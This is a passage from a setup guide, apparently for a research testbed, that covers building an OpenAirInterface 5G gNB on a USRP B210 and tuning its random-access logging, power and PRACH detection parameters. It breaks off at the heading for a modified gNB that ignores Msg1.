<b>2. You will also want to know the power of received Msg3. Since OAI gNB by default does not print this value, we should edit line 504 in `nr_fill_indication()` in `phy_procedures_nr_gNB.c`</b>

```c=504
  //LOG_D(PHY, ///// WILFRID - THIS IS BEFORE /////
  LOG_I(PHY, ///// WILFRID - THIS IS AFTER /////
        "%d.%d: Estimated SNR for PUSCH is = %f dB (ulsch_power %f, noise %f) delay %d\n",
        frame,
        slot_rx,
        SNRtimes10 / 10.0,
        dB_fixed_x10(gNB->pusch_vars[ULSCH_id].ulsch_power_tot) / 10.0,
        dB_fixed_x10(gNB->pusch_vars[ULSCH_id].ulsch_noise_power_tot) / 10.0,
        sync_pos);
```

<b>3. Now, just recompile attacker following [3.1](#31-download-and-install-regular-oai-gnb)</b>

### 3.3. Running gNB with Msg1 and Msg3 Visibility

#### 3.3.1. Running gNB with Msg1 and Msg3 Visibility Regularly

<b>1. To run the gNB, just use the regular command to run OAI gNB plus `--log_config.PRACH_debug` parameter to get detailed RACH log</b>

```shell=
cd openairinterface5g/cmake_target/ran_build/build
sudo ./nr-softmodem -O ../../../targets/PROJECTS/GENERIC-NR-5GC/CONF/gnb.sa.band78.fr1.106PRB.usrpb210.conf --gNBs.[0].min_rxtxtime 6 -E --continuous-tx --log_config.PRACH_debug
```


<b>2. Run UE by switching off airplane mode</b>

<b>3. gNB should have detailed Msg1 and Msg3 Visibility like below</b>

```shell=
[PHY]   prach_I0 = 19.1 dB
[NR_PHY]   [RAPROC] 15.19 Initiating RA procedure with preamble 47, energy 56.4 dB (I0 191, thres 120), delay 0 start symbol 2 freq index 0
[PHY]   prach_I0 = 23.5 dB
[NR_MAC]   15.19 UE RA-RNTI 010d TC-RNTI 8c9f: Activating RA process index 0
[NR_MAC]   UE 8c9f: Msg3 scheduled at 16.17 (16.7 TDA 3)
[NR_MAC]   UE 8c9f: 16.7 Generating RA-Msg2 DCI, RA RNTI 0x10d, state 1, preamble_index(RAPID) 47, timing_offset = 0 (estimated distance 0.0 [m])
[NR_MAC]   16.7 Send RAR to RA-RNTI 010d
16.17: Estimated SNR for PUSCH is = 33.900000 dB (ulsch_power 60.600000, noise 26.700000) delay -3
[NR_MAC]   Adding new UE context with RNTI 0x8c9f
[NR_MAC]     16.17 PUSCH with TC_RNTI 0x8c9f received correctly
[MAC]   [RAPROC] Received SDU for CCCH length 6 for UE 8c9f
[RLC]   Activated srb0 for UE 35999
[RLC]   Added srb 1 to UE 35999
[NR_MAC]   Activating scheduling Msg4 for TC_RNTI 0x8c9f (state WAIT_Msg3)
[NR_RRC]   Decoding CCCH: RNTI 8c9f, payload_size 6
[NR_RRC]   [--] (cellID 0, UE ID 1 RNTI 8c9f) Create UE context: CU UE ID 1 DU UE ID 35999 (rnti: 8c9f, random ue id 9c737a745f000000)
[RRC]   activate SRB 1 of UE 1
```

#### 3.3.2. Controlling UE Msg1 & Msg3 Transmit Power

<b>0. You might want to control the UE's Msg1 and Msg3 Power so that the gNB can received different power level of Msg1 and Msg3. Here is an illustration of relation between transmit, received, Msg1 and Msg3 Power</b>


<b>1. To modify UE's Msg1 power, you need to check and modify the `preambleReceivedTargetPower` that will be broadcasted by the gNB. My gNB's config file is usually `gnb.sa.band78.fr1.106PRB.usrpb210.conf`</b>

```shell=73
#prach_msg1_FDM
#0 = one, 1=two, 2=four, 3=eight
          prach_msg1_FDM                                            = 0;
          prach_msg1_FrequencyStart                                 = 0;
          zeroCorrelationZoneConfig                                 = 13;
          preambleReceivedTargetPower                               = -96; ///// WILFRID - PAY CLOSE ATTENTION TO THIS VALUE /////
#preamblTransMax (0...10) = (3,4,5,6,7,8,10,20,50,100,200)
          preambleTransMax                                          = 6;
```

<b>2. Msg3 Power is related to Msg1 Power through `msg3_DeltaPreamble`. By modifying Msg1 power, you also modify Msg3 power. In addition, if needed, you can check and modify the `msg3_DeltaPreamble` that will be broadcasted by the gNB.</b>

```shell=104
# 0=unrestricted, 1=restricted type A, 2=restricted type B
        restrictedSetConfig                                         = 0,

        msg3_DeltaPreamble                                          = 1; ///// WILFRID - PAY CLOSE ATTENTION TO THIS VALUE /////
        p0_NominalWithGrant                                         =-90;
```

#### 3.3.3. Controlling gNB's Transmit Power

<b>0. You might want to control the gNB's transmit power so that power constrained UE (e.g. OAI nrUE with USRP B210) can received gNB's SSB when it is far from gNB.</b>

<b>1. To modify gNB's transmit power, you need to check and modify the `att_tx` that will attenuate the power of signal sent by gNB. My gNB's config file is usually `gnb.sa.band78.fr1.106PRB.usrpb210.conf`</b>

```shell=194
RUs = (
{
  local_rf       = "yes"
  nb_tx          = 1
  nb_rx          = 1
  att_tx         = 12; ///// WILFRID - PAY CLOSE ATTENTION TO THIS VALUE /////
  att_rx         = 12;
  bands          = [78];
  max_pdschReferenceSignalPower = -27;
  max_rxgain                    = 114;
  eNB_instances  = [0];
  clock_src = "internal";
}
```

#### 3.3.4. Controlling gNB's noise threshold update factor

<b>0. You might want to control the gNB's noise threshold update factor so that you can get more data for experiment. Here is an illustration of relation between gNB's noise threshold update factor and gNB's noise threshold</b>


<b>1. To modify gNB's noise threshold update factor, you should edit line 186 in `L1_nr_prach_procedures()` in `nr_prach_procedures.c`</b>

```c=186
      gNB->measurements.prach_I0 = ((gNB->measurements.prach_I0*900)>>10) + ((max_preamble_energy[0]*124)>>10); ///// WILFRID - EDIT THE "900" AND "124" VALUE IN THIS LINE /////
      if (frame==0) LOG_I(PHY,"prach_I0 = %d.%d dB\n",gNB->measurements.prach_I0/10,gNB->measurements.prach_I0%10);
      if (gNB->prach_energy_counter < 100) gNB->prach_energy_counter++;
```

<b>2. gNB's noise threshold update factor, or alpha, have value max = 1. In this code, the value will be divided with 1024. alpha in the one after `max_preamble_energy[0]`. So let's say you want alpha = 0.1. You should use 1024 * 0.1 = 102 and type `max_preamble_energy[0]*102`.</b>

<b>3. And then, 1 - alpha = 0.9. 0.9 * 1024 = 922. So, you should type `gNB->measurements.prach_I0*922`.</b>


#### 3.3.5. Controlling gNB's Msg1 power detection threshold

<b>0. You might want to control the gNB's Msg1 power detection threshold so that you can get more data for experiment. Here is an illustration of relation between gNB's Msg1 power detection threshold and gNB's noise threshold</b>


<b>1. To modify gNB's Msg1 power detection threshold, , you need to check and modify the `prach_dtx_threshold`. My gNB's config file is usually `gnb.sa.band78.fr1.106PRB.usrpb210.conf`</b>

```c=184
L1s = (
{
  num_cc = 1;
  tr_n_preference       = "local_mac";
  prach_dtx_threshold   = 120; ///// WILFRID - PAY CLOSE ATTENTION TO THIS VALUE /////
  pucch0_dtx_threshold  = 100;
  ofdm_offset_divisor   = 8; #set this to UINT_MAX for offset 0
}
```

<b>2. The value used there is x10. So if Msg1 should have 12dB power more than noise, `prach_dtx_threshold   = 120`.</b>


## 4. Installation and User Guide for OAI gNB with Ignore Msg1 Feature

### 4.1. Download and Install Regular OAI gNB

<b>1. Install USRP B210 dependency</b>

```shell=
sudo apt install -y autoconf automake build-essential ccache cmake cpufrequtils doxygen ethtool g++ git inetutils-tools libboost-all-dev libncurses5 libncurses5-dev libusb-1.0-0 libusb-1.0-0-dev libusb-dev python3-dev python3-mako python3-numpy python3-requests python3-scipy python3-setuptools python3-ruamel.yaml
```

<b>2. Build UHD from source</b>

```shell=
git clone https://github.com/EttusResearch/uhd.git
cd uhd
git checkout v4.6.0.0
cd host
mkdir build
cd build
cmake ../
make -j $(nproc)
make test # This step is optional
sudo make install
sudo ldconfig
```

<b>3. Download FPGA Image</b>

```shell=
sudo uhd_images_downloader
```

<b>4. Install Gnuradio</b>

```shell=
sudo apt install gnuradio
```

<b>5. Check if the system can recognise B210 through USB</b>

```shell=
lsusb
```


<b>6. Test the device with uhd to see if it works</b>

```shell=
sudo uhd_find_devices
```


<b>7. Download OAI nrUE from gitlab</b>

```shell=
git clone https://gitlab.eurecom.fr/oai/openairinterface5g.git
cd openairinterface5g
git checkout 2025.w11
```


<b>8. Dependency</b>

```shell=
cd cmake_targets
./build_oai -I
```


<b>9. Install nrscope</b>

```shell=
sudo apt install -y libforms-dev libforms-bin
```


<b>10. Optional Reinstall yaml-cpp</b>

```shell=
# this is optional
# sometimes, the yaml-cpp library is broken, so will result in error of step 11
sudo apt update
sudo apt install --reinstall libyaml-cpp-dev
```


<b>11. Build OAI gNB with USRP mode</b>

```shell=
./build_oai -w USRP --ninja --nrUE --gNB --build-lib "nrscope" -C
```


### 4.2. Modify Regular OAI gNB into gNB with Ignore Msg1 Feature
